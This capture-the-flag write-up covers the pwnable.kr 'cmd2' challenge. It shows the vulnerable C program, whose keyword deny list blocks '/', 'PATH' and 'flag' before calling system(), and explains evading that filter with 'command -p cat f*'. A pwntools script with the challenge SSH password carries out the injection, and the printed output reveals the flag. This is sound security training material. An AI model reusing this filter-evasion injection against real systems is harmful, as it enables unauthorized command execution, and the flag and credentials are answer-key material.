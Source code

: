# Pwnable.kr: Toddler's Bottle
## cmd2

This is a follow up challenge to the **cmd1** challenge, with a much stronger filter and a wiping of the environment variables. As seen in the source code below, our previous solution for **cmd1** will not work this time since the '/' character is now identified by the filter, but we can still use the same trick of using 'f*' to direct to the flag file.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

The question now is how can we run the *cat* utility without using any '/' characters, or find an alternative way to view the flag. Well the *system( argv[1] )* call will be the point that we would need to exploit, and since it is a wrapper for other POSIX exec functions we should have a look at how it works by running *man system*. This shows us that the system(char * command) call is a wrapper for execl("/bin/sh", "sh", "-c", command, (char \*) 0), which tells us that we are using the dash command line interpreter (AKA shell). Lets look into what already comes builtin with the shell that we have access too by reading the *man sh* page. Of particular interest to us is the builtin in *command* command (sounds a bit confusing), which has the -p option for using a PATH variable that "guarantees to find all the standard utilities".

<pre>
command [-p] [-v] [-V] command [arg ...]
       Execute the specified command but ignore shell functions when searching for it.  (This
       is useful when you have a shell function with the same name as a builtin command.)

       <b>-p     search for command using a PATH that guarantees to find all the standard utili‐
              ties.</b>

       -V     Do not execute the command but search for the command and print the resolution
              of the command search.  This is the same as the type builtin.

       -v     Do not execute the command but search for the command and print the absolute
              pathname of utilities, the name for builtins or the expansion of aliases.
</pre>

Therefore, we can use command -p cat f* to bypass the changing of the PATH environment variable since *cat* is a standard utility.

Once again, we can write a neat petite script to pwn this challenge.

```python
from pwn import *

s = ssh(host='pwnable.kr', port=2222, user='cmd2', password='mommy now I get what PATH environment is for :)')
p = s.process(["./cmd2", "command -p cat f*"])

#Need to receive 2 lines since 'command' echoes the command to stdout
print(p.recvline())
print(p.recvline())
```

<pre>
[+] Connecting to pwnable.kr on port 2222: Done
[*] cmd1@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process './cmd2' on pwnable.kr: pid 108150
command -p cat f*

FuN_w1th_5h3ll_v4riabl3s_haha
</pre>
